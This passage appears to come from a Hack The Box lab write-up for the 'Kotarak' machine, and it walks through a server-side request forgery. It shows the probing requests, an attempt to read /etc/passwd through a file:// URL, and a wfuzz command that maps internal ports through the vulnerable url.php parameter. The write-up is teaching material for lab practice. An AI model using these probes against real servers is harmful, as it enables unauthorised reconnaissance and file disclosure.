 ![Web page port 60000](https://kyuu-ji.github.io/htb-write-up/kotarak/kotarak_web-1.png)

When entering a test string and submitting it, it forwards us to _/url.php?path=teststring_.
This looks like a **Server-Side Request Forgery (SSRF)** attack, where it could be possible to access parts of the server that should normally not be accessible.

Lets test this out by starting a **SimpleHTTPServer** with Python and submit the IP address of our machine:
```markdown
python -m SimpleHTTPServer 80
```

After submitting my local web server gets a connection and the directory listing is shown.

### Server-Side Request Forgery

Trying to display local files on the box by submitting:
```markdown
file:///etc/passwd
```

This outputs the text _"try harder"_ and it seems like it filters for the word "file" in all cases.
Sending this to **Burpsuite** and analyzing it more.

When requesting something from _localhost_ it responds the same page back:
```markdown
GET /url.php?path=http://localhost:60000 HTTP/1.1
```

This can be used to do a local port scan by fuzzing the port number with **Wfuzz**:
```markdown
wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
```

This command tries out every number between 1 and 65535 at the end of the request and ignores all results that have only 2 characters because those are false positives.
The results are locally open ports on the box, but it is possible to access them as the tool on port 60000 allows us to request them.
```markdown
Open ports:
22, 90, 110, 200, 320, 888
```

Now request every single one as before with port 60000:
```markdown
- GET /url.php?path=http://localhost:90 HTTP/1.1
  - Title: _"This page is under construction"_
- GET /url.php?path=http://localhost:110 HTTP/1.1
  - Title: _"Test page"_
- GET /url.php?path=http://localhost:200 HTTP/1.1
  - Title: _"Hello World"_
- GET /url.php?path=http://localhost:320 HTTP/1.1
  - Title: _"Accounting"_
- GET /url.php?path=http://localhost:888 HTTP/1.1
  - Title: _"Simple File Viewer"_
```
